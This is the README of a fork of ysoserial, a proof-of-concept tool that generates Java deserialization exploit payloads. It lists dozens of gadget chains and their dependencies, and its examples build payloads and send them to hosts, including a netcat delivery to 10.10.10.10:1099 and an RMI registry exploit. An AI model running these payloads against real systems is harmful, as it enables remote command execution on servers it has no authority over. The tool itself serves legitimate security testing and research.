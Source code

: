 
# ysoserial

**Fork**: This is a fork of [https://github.com/wh1t3p1g/ysoserial](The wh1t3p1g fork) of ysoserial. The only change here so far is a modified README.md and pom.xml to allow building using modern Maven versions.


[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Update

* CommonsCollection8,9,10
* RMIRegistryExploit2,3
* RMIRefListener,RMIRefListener2
* PayloadHTTPServer
* Spring3

最新的相关研究已转移到[ysomap](https://github.com/wh1t3p1g/ysomap)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        http://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar                                                                                                         ✹master
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
Feb. 02, 2024 4:56:16 PM org.reflections.Reflections scan
INFO: Reflections took 49 ms to scan 1 urls, producing 18 keys and 162 values
     Payload              Authors                                Dependencies
     -------              -------                                ------------
     BeanShell1           @pwntester, @cschneider4711            bsh:2.0b5
     C3P0                 @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Clojure              @JackOfMostTrades                      clojure:1.8.0
     CommonsBeanutils1    @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1  @frohoff                               commons-collections:3.1
     CommonsCollections10 @wh1t3p1g                              commons-collections:3.2.1
     CommonsCollections2  @frohoff                               commons-collections4:4.0
     CommonsCollections3  @frohoff                               commons-collections:3.1
     CommonsCollections4  @frohoff                               commons-collections4:4.0
     CommonsCollections5  @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6  @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7  @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     CommonsCollections8  @navalorenzo                           commons-collections4:4.0
     CommonsCollections9  @wh1t3p1g                              commons-collections:3.1
     FileUpload1          @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1              @frohoff                               groovy:2.3.9
     Hibernate1           @mbechler
     Hibernate2           @mbechler
     JBossInterceptors1   @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient           @mbechler
     JRMPListener         @mbechler
     JSON1                @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1       @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21              @frohoff
     Jython1              @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1        @matthias_kaiser                       js:1.7R2
     MozillaRhino2        @_tint0                                js:1.7R2
     Myfaces1             @mbechler
     Myfaces2             @mbechler
     ROME                 @mbechler                              rome:1.0
     Spring1              @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2              @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     Spring3              @wh1t3p1g                              spring-tx:5.2.3.RELEASE, spring-context:5.2.3.RELEASE, javax.transaction-api:1.2
     URLDNS               @gebl
     Vaadin1              @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1              @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```



## Building

This repositories `pom.xml` has been updated to work with more up to date versions of Maven. 

I used Maven `3.9.61` and Java 11 (later Java versions may not work). I set the alternate JDK from the command line like so:

```
$ export JAVA_HOME=/Library/Java/JavaVirtualMachines/openjdk11-temurin/Contents/Home
```

Compile as follows:

```mvn clean package -DskipTests```


The following may be needed in the Maven configuration file `~/.m2/settings.xml` to allow access to blocked repositories.

```
<settings xmlns="http://maven.apache.org/SETTINGS/1.2.0"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xsi:schemaLocation="http://maven.apache.org/SETTINGS/1.2.0 http://maven.apache.org/xsd/settings-1.2.0.xsd">
   <mirrors>
        <mirror>
            <id>maven-default-http-blocker</id>
            <mirrorOf>external:dont-match-anything-mate:*</mirrorOf>
            <name>Pseudo repository to mirror external repositories initially using HTTP.</name>
            <url>http://0.0.0.0/</url>
            <blocked>false</blocked>
        </mirror>
    </mirrors>
</settings>
```



## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
